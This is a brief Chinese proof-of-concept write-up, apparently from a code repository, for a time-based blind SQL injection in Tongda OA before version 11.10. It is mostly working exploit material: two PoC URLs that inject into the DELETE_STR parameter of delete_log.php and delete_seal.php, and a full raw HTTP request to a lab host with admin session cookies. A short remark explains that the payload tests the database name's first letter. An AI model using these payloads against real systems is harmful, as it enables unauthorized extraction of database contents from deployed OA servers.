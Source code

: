 通达OA版本11.10之前存在SQL注入。

通过时间延迟获取数据库信息

验证POC1：

```
/general/system/seal_manage/dianju/delete_log.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(84)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

验证POC2：

```
/general/system/seal_manage/iweboffice/delete_seal.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(84)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```





```

GET /general/system/seal_manage/dianju/delete_log.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(84)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1 HTTP/1.1
Host: 192.168.232.137:8098
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=1u7tsd1cpgp9qvco726smb50h5; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=779f3f46
Upgrade-Insecure-Requests: 1

```

本地环境的数据库为TD_OA

在ASCII码中84代表的是 T 

![image-20230810092456839](./通达oa_sql注入.assets/image-20230810092456839.png)

![image-20230810092501917](./通达oa_sql注入.assets/image-20230810092501917.png)